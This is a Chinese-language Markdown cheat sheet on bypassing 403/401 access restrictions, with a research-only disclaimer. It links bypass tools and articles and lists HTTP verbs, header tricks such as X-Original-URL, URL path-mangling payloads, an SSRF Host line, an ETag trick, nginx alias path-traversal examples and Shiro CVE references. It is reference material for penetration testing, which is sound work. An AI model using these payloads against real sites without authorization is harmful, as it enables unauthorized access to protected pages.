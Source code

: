 # 绕过访问

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [Tips : Bypass Etag If-None-Match](https://anggigunawan17.medium.com/tips-bypass-etag-if-none-match-e1f0e650a521)
- [记一次403绕过技巧](https://mp.weixin.qq.com/s/_hcVp9u7OIHnYW1l7lQiCQ)

**相关案例**
- [Bypassing 403 Protection To Get Pagespeed Admin Access](https://sapt.medium.com/bypassing-403-protection-to-get-pagespeed-admin-access-822fab64c0b3)

**相关工具**
- [iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403) - 一个用来绕过403报错的简单脚本
- [Dheerajmadhukar/4-ZERO-3](https://github.com/Dheerajmadhukar/4-ZERO-3) - 403/401 Bypass Methods + Bash Automation
- [devploit/dontgo403](https://github.com/devploit/dontgo403) - Tool to bypass 40X response codes.
- [ffffffff0x/403-fuzz](https://github.com/ffffffff0x/403-fuzz) - 针对 403 页面的 fuzz 脚本
- [sting8k/BurpSuite_403Bypasser](https://github.com/sting8k/BurpSuite_403Bypasser) - Burpsuite Extension to bypass 403 restricted directory
- [lobuhi/byp4xx](https://github.com/lobuhi/byp4xx) - Pyhton script for HTTP 40X responses bypassing. Features: Verb tampering, headers, #bugbountytips tricks and 2454 User-Agents.

**相关资源**
- [GrrrDog/weird_proxies](https://github.com/GrrrDog/weird_proxies) - Reverse proxies cheatsheet
- [CHYbeta/OddProxyDemo](https://github.com/CHYbeta/OddProxyDemo)

**Tips**
- protocol based bypass
    ```bash
    http://web.com/admin    # ===> 403
    https://web.com/admin   # ===> 200
    ```

- method based bypass
    ```bash
    OPTIONS
    GET
    HEAD
    POST
    PUT
    DELETE
    TRACE
    TRACK
    CONNECT
    PROPFIND
    PROPPATCH
    MKCOL
    COPY
    MOVE
    LOCK
    UNLOCK
    VERSION-CONTROL
    REPORT
    CHECKOUT
    CHECKIN
    UNCHECKOUT
    MKWORKSPACE
    UPDATE
    LABEL
    MERGE
    BASELINE-CONTROL
    MKACTIVITY
    ORDERPATCH
    ACL
    PATCH
    SEARCH
    ARBITRARY
    ```

- HTTP Header based bypass
    ```bash
    GET /admin HTTP/1.1
    Host: web.com   # ===> 403

    GET /anything HTTP/1.1
    Host: web.com
    X-Original-URL: /admin  # ===> 200

    GET /anything HTTP/1.1
    Host: web.com
    Referer: https://web.com/admin  # ===> 200

    GET https://qq.com HTTP/1.1
    Host: web.com   # ===> SSRF
    ```

- url character/parameter bypass
    ```bash
    /admin/panel            # ===> 403
    /admin/monitor          # ===> 200

    /admin/monitor/;panel   # ===> 302
    ```
    ```bash
    web.com/admin           # ===> 403

    web.com/ADMIN           # ===> 200
    web.com/admin/          # ===> 200
    web.com//admin/         # ===> 200
    web.com/admin;          # ===> 200
    web.com/admin/.         # ===> 200
    web.com/admin/../admin  # ===> 200
    web.com/admin../admin   # ===> 200
    web.com/../admin        # ===> 200
    web.com//admin//        # ===> 200
    web.com/./admin/./      # ===> 200
    web.com/./admin/..      # ===> 200
    web.com/;/admin         # ===> 200
    web.com/.;/admin        # ===> 200
    web.com//;//admin       # ===> 200
    web.com/admin.json      # ===> 200(ruby)

    web.com/%2f/admin/      # ===> 200
    web.com/%2e/admin       # ===> 200
    web.com/%252e/admin     # ===> 200
    web.com/%ef%bc%8fadmin  # ===> 200

    web.com/admin           # ===> 302
    web.com/test/admin      # ===> 200
    web.com/admin..;/       # ===> 200
    ```

- 304 bypass
    ```bash
    GET /admin HTTP/1.1
    Host: target.com
    If-None-Match: W/"123-dASdsa2d2212e4d21"

    GET /admin HTTP/1.1
    Host: target.com
    ```

    ```
    If-None-Match: W/"123-dASdsa2d2212e4d21"

    If-None-Match: W/"null"
    If-None-Match: W/"123-dASdsa2d2212e4d21" a
    ```

---

## nginx

**相关文章**
- [Common Nginx Misconfiguration leads to Path Traversal](https://systemweakness.com/common-nginx-misconfiguration-leads-to-path-traversal-d58701e997bc) - 当 nginx 配置不当时,可使用类似 `/test../private/secret.html` 进行目录穿越
- [案例｜轻松绕过你的Nginx（上篇）](https://mp.weixin.qq.com/s/yDIMgXltVLNfslVGg9lt4g)
- [终极案例｜轻松绕过你的Nginx（下篇）](https://mp.weixin.qq.com/s/34QZSq90Nj5xKjG1yTGvZw)

```
root /var/www/html/public;

location /test/ {
    alias /var/www/html/public/;
}

✔  /test/public.html
❌  /test../private/secret.html
```

```
root /var/www/html/public;

location /test {
    alias /var/www/html/public/;
}

✔  /test/public.html
✔  /test../private/secret.html
```

---

## Tomcat

**相关文章**
- [CVE-2020-5902——关于;号绕过认证技巧总结](https://mp.weixin.qq.com/s/JnI4f3R5JZqhLFv_fTQ_0A)
- [tomcat对url请求中的特殊字符处理 分析](https://blog.csdn.net/qq_41891666/article/details/110392483)

---

## shiro

**SHIRO-682 & CVE-2020-1957 | Shiro 权限绕过漏洞**
- 相关文章
    - [Shiro 权限绕过漏洞分析（CVE-2020-1957）](https://blog.riskivy.com/shiro-%e6%9d%83%e9%99%90%e7%bb%95%e8%bf%87%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90%ef%bc%88cve-2020-1957%ef%bc%89/)

**SHIRO-782 & CVE-2020-11989**
- 相关文章
    - [Apache Shiro权限绕过漏洞分析(CVE-2020-11989)](https://mp.weixin.qq.com/s/yb6Tb7zSTKKmBlcNVz0MBA)
    - [Apache Shiro 身份验证绕过漏洞 (CVE-2020-11989)](https://xlab.tencent.com/cn/2020/06/30/xlab-20-002/)'
    - [CVE-2020-11989：Apache Shiro权限绕过复现](https://mp.weixin.qq.com/s/p1UzULYPoTKf6i_Chcj2VQ)
    - [记一次Apache Shiro权限绕过实战](http://www.0dayhack.net/index.php/554/)
    - [记一次前台任意文件下载漏洞挖掘](https://xz.aliyun.com/t/10328)

**CVE-2020-17523**
- 相关文章
    - [Apache Shiro身份认证绕过漏洞复现(CVE-2020-17523)](https://mp.weixin.qq.com/s/PHBG3wQUIPSrlmX_jsSXbA)
    - [jweny/shiro-cve-2020-17523](https://github.com/jweny/shiro-cve-2020-17523)
